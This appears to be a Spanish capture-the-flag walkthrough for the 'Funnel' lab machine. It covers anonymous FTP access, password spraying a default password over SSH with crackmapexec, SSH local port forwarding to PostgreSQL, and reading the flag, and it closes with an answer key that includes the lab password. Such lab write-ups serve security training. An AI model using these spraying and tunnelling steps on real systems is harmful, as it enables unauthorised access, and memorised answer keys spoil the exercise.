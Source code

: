 # Funnel

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **FTP (File Transfer Protocol):** Es un protocolo de red utilizado para transferir archivos entre sistemas a través de una red TCP/IP. Aunque es ampliamente utilizado, FTP no cifra la información que se transmite, lo que lo convierte en un objetivo fácil para los atacantes que interceptan el tráfico en redes no seguras, lo que puede dar lugar al robo de archivos o credenciales.
  * **PostgreSQL:** Es un sistema de gestión de bases de datos relacional de código abierto, conocido por su estabilidad y rendimiento. Sin embargo, si no se configura adecuadamente o se dejan configuraciones por defecto, puede ser vulnerable a ataques como la inyección SQL, el acceso no autorizado a bases de datos o la ejecución de comandos maliciosos en el servidor.
  * **Reconnaissance (Reconocimiento):** Es la fase inicial de las pruebas de penetración, donde se recopila información detallada sobre el objetivo. Esto incluye escaneo de puertos, identificación de servicios, descubrimiento de posibles vulnerabilidades y análisis de la infraestructura. El reconocimiento permite a los atacantes identificar los puntos débiles que pueden ser explotados.
  * **Tunneling (Tunelización):** Es una técnica que permite a los atacantes o administradores de red establecer una conexión segura entre dos sistemas a través de una red no segura. Esto se logra encapsulando paquetes de datos dentro de otros, lo que permite eludir las restricciones de firewall o de red. Los atacantes pueden usar túneles para acceder a sistemas protegidos o para ocultar su tráfico.
  * **Password Spraying (Rociado de Contraseñas):** Es un tipo de ataque de fuerza bruta en el que un atacante intenta un número limitado de contraseñas comunes en muchas cuentas diferentes, en lugar de intentar adivinar la contraseña de una sola cuenta. Este ataque es efectivo cuando las contraseñas comunes no se han cambiado y puede ser más difícil de detectar que un ataque tradicional de fuerza bruta.
  * **Port Forwarding (Redirección de Puertos):** Es un proceso mediante el cual se reenvía el tráfico de una red a un puerto específico de un servidor dentro de una red privada. Esta técnica es utilizada por los atacantes para acceder a servicios internos de una red desde fuera, explotando configuraciones de red incorrectas o mal implementadas.
  * **Anonymous/Guest Access (Acceso Anónimo/Acceso de Invitado):** Se refiere a permitir que los usuarios se conecten a sistemas o servicios sin autenticarse, o con privilegios mínimos. Aunque puede ser útil para la accesibilidad, también representa un riesgo de seguridad, ya que los atacantes pueden aprovechar estas cuentas para obtener acceso no autorizado a sistemas sensibles.
  * **Clear Text Credentials (Credenciales en Texto Claro):** Son credenciales de acceso (como nombres de usuario y contraseñas) que se transmiten sin cifrar, lo que significa que pueden ser interceptadas fácilmente en una red. El uso de credenciales en texto claro es una vulnerabilidad grave, ya que cualquier atacante con acceso al tráfico de red puede robarlas y acceder a los sistemas protegidos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.224.43
```

<figure><img src="../../../.gitbook/assets/image (1192).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.224.43
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.&#x20;

<figure><img src="../../../.gitbook/assets/image (1193).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **21** perteneciente al servicio **FTP** y el puerto **22** correspondiente a **SSH** están abiertos. A continuación, se indagará más sobre estos servicios.

Como podemos loguearnos con el usuario **Anonymous** vamos a ello.

```bash
ftp 10.129.224.43
```

Nos descargamos los archivos pertinentes.

<figure><img src="../../../.gitbook/assets/image (1194).png" alt=""><figcaption></figcaption></figure>

Vemos su contenido.

```bash
xdg-open password_policy.pdf
```

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 193627.png" alt=""><figcaption></figcaption></figure>

Tenemos una contraseña. Revisamos el otro archivo.

<figure><img src="../../../.gitbook/assets/image (1195).png" alt=""><figcaption></figcaption></figure>

Hay varios posibles usuarios por lo que creamos un diccionario con ellos para realizar fuerza bruta.

```bash
crackmapexec ssh 10.129.224.43 -u users.txt -p 'funnel123#!#'
```

<figure><img src="../../../.gitbook/assets/image (1196).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión.

```bash
ssh christine@10.129.224.43
```

<figure><img src="../../../.gitbook/assets/image (1197).png" alt=""><figcaption></figcaption></figure>

Para redirigir la instancia de PostgreSQL a tu máquina local, utilizamos el siguiente comando SSH:

```bash
ssh -L 1234:localhost:5432 christine@10.129.224.43
```

En otra instancia.

```bash
psql -U christine -h localhost -p 1234
```

Listamos databases.

```bash
\l
```

<figure><img src="../../../.gitbook/assets/image (1198).png" alt=""><figcaption></figcaption></figure>

Nos conectamos a **secrets**.

```bash
\c secrets
```

<figure><img src="../../../.gitbook/assets/image (1199).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

Seleccionamos la flag.

```bash
SELECT * FROM flag;
```

<figure><img src="../../../.gitbook/assets/image (1200).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 201812.png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1**\
&#xNAN;**¿Cuántos puertos TCP están abiertos?**\
🔹 **Respuesta:** `2`

**Task 2**\
&#xNAN;**¿Cuál es el nombre del directorio disponible en el servidor FTP?**\
🔹 **Respuesta:** `mail_backup`

**Task 3**\
&#xNAN;**¿Cuál es la contraseña predeterminada que todo nuevo miembro del equipo "Funnel" debe cambiar lo antes posible?**\
🔹 **Respuesta:** `funnel123#!#`

**Task 4**\
&#xNAN;**¿Qué usuario no ha cambiado su contraseña predeterminada aún?**\
🔹 **Respuesta:** `christine`

**Task 5**\
&#xNAN;**¿Qué servicio se está ejecutando en el puerto TCP 5432 y solo escucha en localhost?**\
🔹 **Respuesta:** `PostgreSQL`

**Task 6**\
**Dado que no puedes acceder al servicio mencionado desde la máquina local, debes crear un túnel y conectarte a él desde tu máquina. ¿Cuál es el tipo correcto de túnel a utilizar? ¿Reenvío de puerto remoto o reenvío de puerto local?**\
🔹 **Respuesta:** `local port forwarding`

**Task 7**\
&#xNAN;**¿Cuál es el nombre de la base de datos que contiene la flag?**\
🔹 **Respuesta:** `secrets`

**Task 8**\
&#xNAN;**¿Podrías usar un túnel dinámico en lugar de un reenvío de puerto local? Sí o No.**\
🔹 **Respuesta:** `Sí`
